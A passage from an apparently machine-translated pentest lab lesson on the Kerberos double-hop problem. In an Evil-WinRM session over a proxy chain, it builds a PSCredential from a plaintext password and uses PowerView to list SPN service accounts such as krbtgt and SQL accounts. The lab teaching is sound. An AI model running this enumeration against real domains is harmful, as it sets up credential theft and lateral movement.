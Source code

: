 Así que ahora, configuremos un objeto PSCredential e intentemos nuevamente. Primero, configuramos nuestra autenticación.

  Problema de "doble salto" de Kerberos

```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
*Evil-WinRM* PS C:\Users\backupadm\Documents>  $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)
```

Ahora podemos intentar consultar las cuentas SPN usando PowerView y tenemos éxito porque aprobamos nuestras credenciales junto con el comando.

  Problema de "doble salto" de Kerberos

```shell-session
*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn -credential $Cred | select samaccountname

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK

samaccountname
--------------
azureconnect
backupjob
krbtgt
mssqlsvc
sqltest
sqlqa
sqldev
mssqladm
svc_sql
sqlprod
sapsso
sapvc
vmwarescvc
```

Si lo intentamos de nuevo sin especificar el`-credential`Bandera, una vez más recibimos un mensaje de error.

  Problema de "doble salto" de Kerberos

```shell-session
get-domainuser -spn | select 

*Evil-WinRM* PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname 

|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9051-<><>-172.16.8.50:5985-<><>-OK
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At C:\Users\backupadm\Documents\PowerView.ps1:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : DirectoryServicesCOMException
```

